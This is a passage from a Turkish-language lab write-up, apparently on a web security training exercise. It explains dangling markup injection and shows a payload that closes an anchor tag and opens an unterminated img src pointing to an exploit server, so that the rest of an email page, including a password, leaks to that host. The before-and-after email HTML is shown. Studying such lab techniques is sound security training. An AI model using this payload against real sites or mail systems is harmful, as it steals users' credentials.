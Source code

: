 ![Untitled](0x13-ada5ae96539943db9d14955c71e3b77c/Untitled-17.png)

Burada a tag’inin href değerini öyle bir değer ile değiştirmeliyiz ki bu kısım parolayı taşıyan bir URL’e dönüşmeli. Yani buradaki link’e tıkladığında bize parolanın da gelmesi gerekiyor. Bu kısma gelmeden önde `Dangling markup`  konusunu anlamamız gerekmektedir. 

`Dangling Markup`, bir metin veya belge içinde yer alan, ancak tamamlanmamış veya uyumsuz bir HTML veya diğer işaretleme diline ait etiketleri ifade eder. Bu etiketler, genellikle başlangıç etiketi açıldıktan sonra kapatılmamış veya kapatılması gereken bir etiketin başlangıcı olmayan durumları temsil eder.

Örneğin yukarıdaki yapıyı bu şekilde değiştirebiliriz, eklediğimiz bu yeni kısım ile birlikte HTML içeriğin kalan tüm kısmı img etiketine bağlanmış olacaktır;

```html
payload: '></a> <img src="http:// https://exploit-0a94007f037fa560847ca470015a00ce.exploit-server.net/exploit/?a=
```

```html
<p>Hello!</p>
<p>
  Please
  <a
    href="https://paylaod/login"
    >click here</a
  >
  to login with your new password: hXnddvQ5H4
</p>
<p>Thanks,<br />Support team</p>
<i>This email has been scanned by the MacCarthy Email Security service</i>

```

Dolayısıyla buradaki yapımız şu hale gelecektir;

```html
<p>Hello!</p>
<p>
  Please
  <a
    href="https://'></a> <img src="http:// https://exploit-0a94007f037fa560847ca470015a00ce.exploit-server.net/exploit/?a=/login"
    >click here</a
  >
  to login with your new password: hXnddvQ5H4
</p>
<p>Thanks,<br />Support team</p>
<i>This email has been scanned by the MacCarthy Email Security service</i>

```
